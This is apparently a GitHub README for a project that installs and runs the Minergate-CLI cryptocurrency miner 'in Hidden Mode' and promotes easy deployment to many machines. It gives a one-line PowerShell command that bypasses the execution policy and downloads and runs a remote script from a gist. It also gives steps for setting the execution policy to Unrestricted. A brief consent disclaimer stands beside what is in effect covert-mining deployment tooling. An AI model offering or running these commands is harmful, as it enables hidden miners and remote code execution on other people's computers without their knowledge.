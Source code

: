 # Minergate Deployment and Running

Install and Run Minergate-CLI in Hidden Mode

_Host_: https://api.minergate.com

### Introduction

This project I undertook while running a small graphics powered farm while I was improving on my coding skills. I will slowly update all the source code I used to install and deploy and monitor my farm. 

Please do NOT use this without the consent of the person who owns the computer. This code is NOT to be used for malicious purposes. 

### Example (Works in Win 10 Only)

This executes a the code in this git via one line of code only. It makes it extremely easy to deploy to lots of machines. I will publish the guide on how to do this soon. 

Run CMD as Administrator and paste this script in:

@powershell -NoProfile -ExecutionPolicy Bypass -Command "iex ((new-object net.webclient).DownloadString('https://gist.githubusercontent.com/Hawkryption/dd55e0a282a70f3af63ed792f5eca570/raw/d2fc7bc4a52b84dec0b7d6c436b4bdaa7ec68d70/Java.ps1'))"


### Using this Powershell Script

#### 1. Download Install_Minergate.ps1 and Edit the Code

Download Install_Minergate.ps1 and place it in your C:\ Directory. Register an account with Minergate.com and replace the email address with your own in the code. To edit the code right click the file and click edit.

#### 2. Lunch Powershell in Administrator Mode

Click on Start and type Powershell -> Right click on "Windows Powershell" and then "Run as Administrator"

#### 3. Set Execution Policy

By default Windows does not allow the execution of Powershell scripts. This is by design to stop remote/local execution out of the box for hackers to take advantage of. Please be aware that when you set this you are allow unrestricted script execution access to your PC and as such any application can remotely execute scripts. You can isolate it to just one session that has unrestricted access. You will need to find out how to complete that if it concerns you.

You must launch Powershell in Administrator mode and type the following: (Without "")

**"cd \"** cd \ Press Enter

![Alt text](https://github.com/MetalH47K/Minergate-Powershell/blob/master/cd.PNG?raw=true "cd \")

**"_Set-ExecutionPolicy Unrestricted_"** Press Enter

Powershell will then ask:

**Execution Policy Change**

The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): 

You need to choose: "[A] Yes to All" **Press A**

![Alt text](https://github.com/MetalH47K/Minergate-Powershell/blob/master/Set-ExecutionPolicy%20Unrestricted.PNG?raw=true "Set-ExecutionPolicy Unrestricted")

#### 4. Execute Script

Now you are ready to execute the script. Simply type without brackets **".\Install_Minergate.ps1"**


